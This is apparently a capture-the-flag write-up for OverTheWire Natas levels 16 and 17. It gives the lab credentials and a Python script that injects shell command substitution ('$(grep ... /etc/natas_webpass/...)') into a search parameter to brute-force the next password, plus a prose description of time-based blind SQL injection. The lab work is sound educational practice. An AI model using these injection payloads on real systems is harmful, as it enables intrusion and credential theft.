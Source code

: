 #### Credentials
natas16
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

#### How you passed the challenge
build script in python to brute force
#! /bin/python
import requests, string
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
password = "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V"
characters = ''.join([string.digits, string.ascii_letters])
passchar = []
exists_str = "This user exists"

for c in characters:
    query = '/?needle=brute$(grep ' + c + ' /etc/natas_webpass/natas17)'
    uri = url+query
    r = requests.get(uri, auth=(username, password))
    if 'brute' not in r.text:
        passchar.append(c)
        print("> {0}".format(''.join(passchar)))
print("Character List: {0}".format(''.join(passchar)))


secret =''
for place in range(1,33):
    print ("Character# <1".format(str(place)))
    for char in passchar:
        temp = ''.join([secret,char])
        query = '/?needle=brute$(grep ^' + temp + ' /etc/natas_webpass/natas17)'
        uri = url+query
        r = requests.get(uri, auth=(username, password))
        if 'brute' not in r.text:
            secret += char
            print("Password : {}".format(secret))


#### What sins are evidenced in this challenge
** Sins here **

#### How could those sins be mitigated
ensure data validation and limit password attempts to counter brute force attack.



---
### Natas 17

#### Credentials
natas17
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

#### How you passed the challenge
Similar python script as natas16, however, slight modification to use blind sql injection
With blind sql injection we can add a sleep time when a condition is true; this will give us a hint on the character we are testing.

